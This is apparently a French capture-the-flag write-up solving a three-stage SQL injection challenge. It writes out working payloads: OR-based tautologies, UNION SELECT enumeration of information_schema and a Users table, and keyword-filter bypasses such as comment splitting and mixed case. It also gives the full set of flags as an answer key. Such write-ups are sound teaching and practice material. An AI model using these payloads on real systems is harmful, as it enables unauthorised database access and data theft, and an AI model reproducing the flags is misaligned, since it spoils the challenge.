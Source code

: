 **Objectif :** Dans ce challenge, l'objectif est de trouver différents flags successifs à travers des formulaires qui laissent à penser à des injections SQL.
A l'étape 1: l'injection SQL du type OR suggéré par le nom de la page "les vendeurs d'OR" conduit à déceler deux flags dans une même table.

A l'étape 2: l'union select permet d'aller sélectionner une autre table et ses contenus et donc accéder à d'autres données. Il se trouve que des flags y sont cachés.

A l'étape 3: la rencontre sans filtre permet de trouver les données manquantes  des tables puis de déterminer successivement les flags restants

si on saisit : ' or ''=' dans id
car
SELECT from VENDEURS where pseudo='yyy' and id='xxx'

SELECT from VENDEURS where pseudo='FIFI' and id='2'#CORRECTE mais il faut le savoir

si on saisit : ' or ''=' dans id

on a

SELECT from VENDEURS where pseudo='' and id='' or ''=''
ce qui nous donne tout
On a 2 flags
***
On parle d'union : union select de base en SQL
on essaie de voir le noms es tabmes
' UNION SELECT * FROM information_schema.tables or ''='
echec

Si on reproduit le OR de l'étape 1 on a une SQL injection qui marche mais pas de flag

1' union select 1, table_name from information_schema.tables order by 'table_name

1' UNION SELECT table_name, column_name FROM information_schema.columns where table_name='Users

avec cette requete :
1' UNION SELECT nom, prenom FROM Users where nom<>'
note le <> qui indique tous les user qui n'ont PAS le nom precisé
ETAPE 3 : rencontre sans FILTRE
si on refait le meme coup que l'etape 1 avec
'or''='
on  a 2 FLAGs de + !

si on remplace espâces par TAB ca marche mais le SELECT estun mot clé interdit

La ruse est de changer une lettre de select y par AUTRE chose, come le code HEXA du S
J'ai d'abord testé plein de cas
SEL\nECT (retour ligne)
SEL / ECT (SQL BREAK)
SEL/**/ECT commentaire
SeLeCt (casse)
concat('SEL', 'ECT")
et ca marche avec ça.

Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}
On a tous les flags cherchés :
on a tout 
password = 404CTF{GorfousAuPouvoir}
Date = 404CTF{2022-07-14} 
Heure = 404CTF{01hDuMatin}
Nom = 404CTF{Vereux}
Prenom = 404CTF{UnGorfou}
Telephone = 404CTF{0145769456}
Adresse = 404CTF{21 rue des kiwis}
Il n'y a plus qu'a encaisser les points

Le flag final est la concaténation de tous les morceaux sans espace : 404CTF{NomPrénomTéléphoneAdresseDateHeureMdp}

Le flag global est donc 404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}

Voir la solution.
